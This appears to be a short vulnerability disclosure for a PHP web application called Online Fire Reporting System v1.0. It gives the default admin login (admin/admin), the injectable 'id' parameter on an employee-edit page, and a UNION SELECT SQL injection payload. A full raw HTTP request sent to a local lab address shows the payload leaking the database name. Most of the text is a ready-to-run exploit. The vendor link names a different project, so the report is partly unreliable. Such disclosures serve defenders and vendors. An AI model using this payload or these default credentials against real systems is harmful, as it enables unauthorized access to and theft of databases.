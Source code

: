 # Online Fire Reporting System v1.0  has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/employee/index.php?view=edit&id=

Vulnerability location: /eris/admin/employee/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/employee/index.php?view=edit&id=-2018001%27%20union%20select%201,2,database(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21--+ // Leak place ---> id

```sql
GET /eris/admin/employee/index.php?view=edit&id=-2018001%27%20union%20select%201,2,database(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849129-04da1989-84f1-4cf0-b785-e7e0c0812995.png)

![image](https://user-images.githubusercontent.com/54017627/170849125-542c71ad-f9d0-4227-b190-144a72c8a07b.png)
